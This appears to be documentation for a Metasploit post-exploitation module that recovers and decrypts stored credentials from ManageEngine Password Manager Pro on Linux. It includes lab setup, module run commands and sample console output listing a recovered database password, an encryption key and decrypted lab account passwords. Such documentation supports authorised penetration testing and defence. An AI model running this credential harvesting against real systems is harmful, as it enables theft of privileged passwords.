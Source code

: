 ## Vulnerable Application

This post module gathers ManageEngine's Password Manager Pro credentials from
the local database. This information is encrypted but all the key materials can
be extracted from the application configuration files and the database itself.

This module simply starts to retrieve the database password, the database
encryption key and the data encryption key, which is used to decrypt passwords
also stored in the database. The result is displayed and stored in the
Metasploit database.

For now, only Linux hosts are supported. This module has been tested with
Password Manager Pro versions 10.5.0 (build 10501) and 12.1.0 (build 12123),
both installed on Ubuntu 20.04.4 (x64).

### Installation

Download `ManageEngine_PMP_64bit.bin` from one of the versions at
https://archives2.manageengine.com/passwordmanagerpro/ and run the installer as
root.

For example:
```
$ curl -O https://archives2.manageengine.com/passwordmanagerpro/12123/ManageEngine_PMP_64bit.bin
$ chmod a+x ManageEngine_PMP_64bit.bin
$ ./ManageEngine_PMP_64bit.bin
```
Follow the step-by-step instructions as they appear on the screen. Enter any
location for the installation base path and select "High availability primary
server".

First, launch Password Manager Pro (PMP) in standalone mode. Depending on the
version, it is sometimes required to accept the License Agreement and select
the license type. If it is the case, select the Free license (`f`).
```
$ cd <installation base path>/bin/
$ ./wrapper ../conf/wrapper_lin.conf
```

Once the first time boot process is finished, access the following URL to make
sure it works: https://127.0.0.1:7272

You can test the module with PMP in standalone mode or continue for a service
installation:
Stop PMP (`Ctrl-C`) and run:
```
$ bash ./pmp.sh install
$ /etc/init.d/pmp-service start
```
PMP will run in the background and logs are located in the `<installation base path>/logs`
folder.

You can refer to the vendor [documentation](https://www.manageengine.com/products/passwordmanagerpro/help/installation.html).

### Setup

To properly test this module, some resources and accounts will need to be added to the database:
1. Access https://127.0.0.1:7272 and login as the main administrator with the default credentials (`admin`:`admin`):
1. Go to the `Resources` section on the left hand panel.
1. In the main panel, select `Add Resource` and `Add Manually`
1. Fill in the required fields (select any type of resource) and click `Save & Proceed`
1. Start adding accounts to this resource by filling the necessary fields and click `Add`
1. Once you have some accounts added, click `Save`
1. Repeat the process to add other resources/accounts


## Verification Steps

1. Install the application (see #Installation)
1. Start msfconsole
1. Get a session
1. Do: `use post/linux/gather/password_manager`
1. Do: `run verbose=true session=1`
1. **Verify** the installation is correctly detected
1. **Verify** all the key material is retrieved
1. **Verify** all the accounts are enumerated with their decrypted password
1. Do: `creds`
1. **Verify** the credentials are correctly stored in the database

To test the installation path detection logic, you can repeat the process with
PMP launched both in standalone mode and as service.

Also, this is interesting to test with both a shell and Meterpreter sessions.

Note that an issue in Meterpreter makes the service detection logic fail to
detect the installation path. The other process detection works normally, so it
doesn't block the module execution.

## Options

### INSTALL_PATH

The Password Manager Pro installation path. If not provided, the module will
try its best to detect it.

### PG_HOST

The PostgreSQL host. Password Manager Pro run PostgreSQL locally by default, so
the default value is `127.0.0.1`.

### PG_PORT

The PostgreSQL port. Default is 2345.

## Scenarios

### Meterpreter session on Ubuntu 20.04.4 - PMP version 12.1.0 (build 12123)

```
msf6 post(linux/gather/password_manager) > run verbose=true session=1

[*] Detecting installation path
[*] Trying to detect path from the Password Manager service
[-] `/etc/init.d/pmp-service` is not a symlink and the installation path cannot be detected
[*] Trying to detect path from the Password Manager related processes
[*] Installation path: /opt/ManageEngine/PMP
[*] Getting the database password
[+] Database password: BKPVR8EFqy
[*] Getting the database encryption key
[+] Found the database key configuration: /opt/ManageEngine/PMP/conf/pmp_key.key
[+] Database encryption key: crOKEnAvDftdOiW4u7fnhAD5iDBVksKYfc24mR3BZjE\=
[+] `notesdescription` field value: T-e)>(72LJCC7007
Password Manager Pro Credentials
================================

 Resource Name  Resource URL              Description      Login Name     Password
 -------------  ------------              -----------      ----------     --------
 Resource 1     https://foomsf.com        Admin creds      Administrator  P@ssw0rd!
 Resource 1     https://foomsf.com        Op creds         Operator       MySuperStrongPassword
 Resource 1     https://foomsf.com        Test account     TestUser       12345678
 Resource2      https://mysql.foomsf.com  SQL admin        master         MyP@sswd123$
 Resource2      https://mysql.foomsf.com  web db password  webdb          123webpassW0Rd@

[*] Post module execution completed
msf6 post(linux/gather/password_manager) > creds
Credentials
===========

host  origin           service  public         private                realm  private_type  JtR Format
----  ------           -------  ------         -------                -----  ------------  ----------
      192.168.177.152           Administrator  P@ssw0rd!                     Password
      192.168.177.152           Operator       MySuperStrongPassword         Password
      192.168.177.152           TestUser       12345678                      Password
      192.168.177.152           master         MyP@sswd123$                  Password
      192.168.177.152           webdb          123webpassW0Rd@               Password
```

### Shell session on Ubuntu 20.04.4 - PMP version 12.1.0 (build 12123)

```
msf6 post(linux/gather/password_manager) > run verbose=true session=2

[*] Detecting installation path
[*] Trying to detect path from the Password Manager service
[*] Installation path: /opt/ManageEngine/PMP
[*] Getting the database password
[+] Database password: BKPVR8EFqy
[*] Getting the database encryption key
[+] Found the database key configuration: /opt/ManageEngine/PMP/conf/pmp_key.key
[+] Database encryption key: crOKEnAvDftdOiW4u7fnhAD5iDBVksKYfc24mR3BZjE\=
[+] `notesdescription` field value: T-e)>(72LJCC7007
Password Manager Pro Credentials
================================

 Resource Name  Resource URL              Description      Login Name     Password
 -------------  ------------              -----------      ----------     --------
 Resource 1     https://foomsf.com        Admin creds      Administrator  P@ssw0rd!
 Resource 1     https://foomsf.com        Op creds         Operator       MySuperStrongPassword
 Resource 1     https://foomsf.com        Test account     TestUser       12345678
 Resource2      https://mysql.foomsf.com  SQL admin        master         MyP@sswd123$
 Resource2      https://mysql.foomsf.com  web db password  webdb          123webpassW0Rd@

[*] Post module execution completed
msf6 post(linux/gather/password_manager) > creds
Credentials
===========

host  origin           service  public         private                realm  private_type  JtR Format
----  ------           -------  ------         -------                -----  ------------  ----------
      192.168.177.152           Administrator  P@ssw0rd!                     Password
      192.168.177.152           Operator       MySuperStrongPassword         Password
      192.168.177.152           TestUser       12345678                      Password
      192.168.177.152           master         MyP@sswd123$                  Password
      192.168.177.152           webdb          123webpassW0Rd@               Password
```
